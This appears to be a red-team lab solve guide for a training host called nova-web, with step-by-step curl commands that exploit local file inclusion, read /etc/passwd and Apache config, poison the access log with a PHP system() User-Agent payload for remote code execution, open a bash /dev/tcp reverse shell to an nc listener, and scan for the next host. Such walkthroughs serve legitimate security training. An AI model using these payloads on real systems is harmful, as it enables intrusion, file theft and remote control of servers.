# 🔴 Red Team — M1: nova-web Solve Guide

**Challenge:** LFI + Apache Log Poisoning → RCE  
**Technique:** T1190 — Exploit Public-Facing Application  
**Entry Point:** HTTP on port 80 (via floating IP / v-Pub-subnet)

**Validated M1 address in this session:** `10.0.2.15`. The attached captures are terminal screenshots from that live M1 instance. This single-host evidence set uses the verified address directly, so no downstream target address is required.

## Step 0 — Record the M1 Address

```bash
ip -brief addr show
```



---

## Step 1 — Reconnaissance

Browse to `http://10.0.2.15/` — You'll see the NovaTech Industries portal.
The HTML source hints at a page viewer: `/view.php?page=`

```bash
curl -sS "http://10.0.2.15/" | grep -i page
```



---

## Step 2 — Confirm LFI

Test for Local File Inclusion:

```bash
curl -sS --get --data-urlencode 'page=/etc/passwd' "http://10.0.2.15/view.php" | grep -E '^(root|www-data|kali):'
```



You should see `/etc/passwd` contents rendered in the HTML response.

The developer used `str_replace('../', '', $page)` but didn't restrict absolute paths or PHP wrappers.

---

## Step 3 — Enumerate and Read the Log File

The log path should be discovered rather than guessed. First use the confirmed LFI to read the Apache virtual-host configuration and look for its `CustomLog` directive:

```bash
curl -sS --get --data-urlencode 'page=/etc/apache2/sites-available/000-default.conf' "http://10.0.2.15/view.php" | grep -E 'CustomLog|ErrorLog'
```



The `CustomLog` line identifies `/var/log/novatech_access.log`. Now read that file through the same LFI:

```bash
curl -sS --get --data-urlencode 'page=/var/log/novatech_access.log' "http://10.0.2.15/view.php" | grep -E '10\.0\.2\.15 - -' | tail -n 5
```



You'll see Apache access log entries. This is the file we'll poison.

---

## Step 4 — Log Poisoning (PHP Code Injection)

Inject PHP code into the log via a crafted User-Agent:

```bash
curl -sS -o /dev/null -A $'<?php system($_GET[\x27cmd\x27]); ?>' "http://10.0.2.15/" && echo 'User-Agent payload logged'
```



After this request, the access log contains the PHP payload.

---

## Step 5 — Trigger RCE via LFI

Now include the poisoned log and pass a command:

```bash
curl -sS --get --data-urlencode 'page=/var/log/novatech_access.log' --data-urlencode 'cmd=id' "http://10.0.2.15/view.php" | grep -oE 'uid=[^<]+' | tail -n 1
```



Read the flag:

```bash
curl -sS --get --data-urlencode 'page=/var/log/novatech_access.log' --data-urlencode 'cmd=cat /var/www/html/secret/flag1.txt' "http://10.0.2.15/view.php" | grep -oE 'FLAG\{[^<]+' | tail -n 1
```



This clean replay uses the syntax-safe payload above, so the log include executes as `www-data` and the flag command returns successfully. If an older lab log contains malformed PHP User-Agent entries, rotate or reset that log before replaying the sequence.

---

## Step 6 — Get Reverse Shell (Optional)

```bash
nc -lvnp 4444
```



On this single-host deployment, the listener address is the verified local
address `10.0.2.15`:

```bash
curl --get --data-urlencode 'page=/var/log/novatech_access.log' --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/10.0.2.15/4444 0>&1'" "http://10.0.2.15/view.php"
```





The listener and reverse-shell request were verified on the single-host
deployment above; use the same validated address for both ends of this
optional step.

---

## Step 7 — Find Hint for M2

```bash
cat /var/www/html/secret/hint.txt
```

The hint file was verified locally on the hosted M1 instance; it identifies FTP
on port 21 in the internal DMZ. The screenshot below shows the exact command
and its returned hint output.



For this single-host deployment, scan the verified local address:

```bash
nmap -n -p 21 --open 10.0.2.15 --reason
```



For a separate multi-host range, replace `10.0.2.15` with the verified M2 DMZ address before scanning.

```bash
ip route get 10.0.2.15
```



---

## Flag Location
`/var/www/html/secret/flag1.txt`
